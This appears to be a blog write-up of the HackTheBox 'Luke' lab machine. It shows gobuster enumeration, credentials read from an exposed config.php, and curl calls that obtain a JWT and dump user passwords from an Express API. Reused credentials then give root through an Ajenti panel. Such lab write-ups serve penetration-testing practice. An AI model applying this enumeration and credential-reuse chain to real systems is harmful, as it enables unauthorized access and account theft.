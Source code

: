 ```yaml
---
title: "HackTheBox - WriteUp 17"
date: 2019-07-18T23:13:19+08:00
description: "HackTheBox 练手 - Luke - JWT Enum - FreeBSD"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Luke

Nmap: 22(Useless), 21(VSftpd), 80(Apache), 3000(Express.js Nodejs Web), 8000(Ajenti Web Management)

# User

Enum 80: `gobuster dir -u http://10.10.10.137 -s 200,204,301,302,307,401,403 -o /tmp/luke80.log -w ./directory-list-2.3-medium.txt -x html,php,htm,txt`

Result:

```
/index.html (Status: 200)
/login.php (Status: 200)
/member (Status: 301)
/management (Status: 401)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/config.php (Status: 200)
/LICENSE (Status: 200)
```

Got DB creds from `/config.php`: `root:Zk6heYCyv6ZE9Xcg`

Then replace admin from `root` to `admin`, Use JWT Bearer Auth to get token, after getting token, run Gobuster, found the api path, get each API to get user credentials

```bash
$ curl -s -k -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"admin", "password":"Zk6heYCyv6ZE9Xcg", "rememberMe": false}' http://10.10.10.137:3000/login -v 

{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzNDE4NzUyLCJleHAiOjE1NjM1MDUxNTJ9.7EcV_r1WzzE7AiFn5pfORs5i1ycusX_6CEQ7AGMurrk"}

$ gobuster dir -u http://10.10.10.137:3000 -s 200,204,301,302,307,401,403 -o /tmp/luke3000.log -w ./directory-list-2.3-medium.txt -x html,php,htm,txt
/login (Status: 200)
/users (Status: 200)
/Login (Status: 200)
/Users (Status: 200)

$ curl -H 'Accept: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzNDE4NzUyLCJleHAiOjE1NjM1MDUxNTJ9.7EcV_r1WzzE7AiFn5pfORs5i1ycusX_6CEQ7AGMurrk' http://10.10.10.137:3000/users

[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]

$ curl -H 'Accept: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzNDE4NzUyLCJleHAiOjE1NjM1MDUxNTJ9.7EcV_r1WzzE7AiFn5pfORs5i1ycusX_6CEQ7AGMurrk' http://10.10.10.137:3000/users/Derry

{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

Use Derry's creds, go to `:80/management`, found `config.json` contains password: `KpMasng6S5EtTy9Z` and keywords `ajenti`.

Use username `root`, logged into 8000 Port. After you get control panel access, you've already rooted.

Get everything you want.

(END)

# Referrence

- https://medium.com/@nieldw/using-curl-to-authenticate-with-jwt-bearer-tokens-55b7fac506bd
